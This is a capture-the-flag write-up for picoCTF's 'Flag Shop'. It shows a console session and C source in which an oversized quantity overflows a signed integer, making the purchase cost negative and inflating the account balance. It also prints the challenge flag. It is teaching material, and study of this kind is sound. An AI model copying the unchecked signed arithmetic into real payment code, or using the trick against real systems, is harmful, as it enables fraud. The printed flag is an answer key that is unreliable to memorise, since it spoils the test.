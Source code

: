 # Flag Shop
## Category: General Skills

#### Description:
> There's a flag shop selling stuff, can you buy a flag? Source. Connect with nc jupiter.challenges.picoctf.org 4906.
 * Source file provided: `store.c`


```Console
 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
300000000

The final cost is: -582939648

Your current balance after transaction: 582940748

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_9c5fac9b}
```
 * exploit:
```Console
if(auction_choice == 1){
    printf("These knockoff Flags cost 900 each, enter desired quantity\n");
    int number_flags = 0;
    fflush(stdin);
    scanf("%d", &number_flags);
    if(number_flags > 0){
        int total_cost = 0;
        total_cost = 900*number_flags;
        printf("\nThe final cost is: %d\n", total_cost);
        if(total_cost <= account_balance){
            account_balance = account_balance - total_cost;
            printf("\nYour current balance after transaction: %d\n\n", account_balance);
        }
        else{
            printf("Not enough funds to complete purchase\n");
        }
    }
}
```

> Notice that total_cost is declared as an int. This is specifically a Signed Integer, which has a range between -2,147,483,648 to
> 2,147,483,647. Signed integers use the first bit to store whether it is negative or positive, 0 indicating positive and 1 indicating
> negative. What happens if you add 1 to 2,147,483,647 and store the result in a signed integer? Well the first bit goes from 0 to 1, meaning
> that the number is now negative! In fact, due to the way Two's Complement, the method used to represent negative numbers in binary, works,
> it actually wraps around to the most negative integer: -2,147,483,648.

__flag:__ picoCTF{m0n3y_bag5_9c5fac9b}
